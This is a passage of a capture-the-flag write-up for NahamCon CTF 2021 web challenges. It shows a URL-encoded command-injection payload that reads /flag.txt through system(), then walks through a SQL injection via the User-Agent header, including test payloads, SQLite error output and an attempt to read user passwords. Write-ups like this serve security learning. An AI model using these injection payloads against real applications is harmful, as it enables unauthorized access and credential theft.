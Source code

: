 %27%2C%27sup%27%29%20%3D%3D%3Dfalse%20%26%26%20system(%27cat%20%2Fflag.txt%27)%20%26%26%20strops%28%27
```

<p align="center">
  <img src="/images/writeups/NahamCTF2021/Web/1_flag.png" width="70%"/>
</p>

``` flag{85a25711fa6e111ed54b86468a45b90c} ```


## Bad Blog 
478 points - Web - medium

We just added analytics to our blogging website. Check them out! 

We create an account at the website:

<p align="center">
  <img src="/images/writeups/NahamCTF2021/Web/2_reg.png" width="70%"/>
</p>

We create a post:

<p align="center">
  <img src="/images/writeups/NahamCTF2021/Web/2_post.png" width="70%"/>
</p>

And clicking on our profile we can see the user agents of the visitors (me). This is the analytics they say in the chall:

<p align="center">
  <img src="/images/writeups/NahamCTF2021/Web/2_visits.png" width="70%"/>
</p>

Let's try some injection on the User-Agent:

<p align="center">
  <img src="/images/writeups/NahamCTF2021/Web/2_burp.png" width="70%"/>
</p>

<p align="center">
  <img src="/images/writeups/NahamCTF2021/Web/2_req.png" width="70%"/>
</p>

For input: _asdf' OR 1=1--_ we get:

```
(sqlite3.OperationalError) incomplete input<br>
[SQL: insert into visit (post_id, user_id, ua) values (5,2,'asdf' OR 1=1--');]<br>
(Background on this error at: http://sqlalche.me/e/13/e3q8)
```

Well, this error shows that the app is using an insert in order to add it to the database. Let's try to retrieve some users...

With this payload we get an error, we cannot execure two statements:

```
asdf');(select password from user)--
insert into visit (post_id, user_id, ua) values (5,2,'asdf');(select password from user)--');
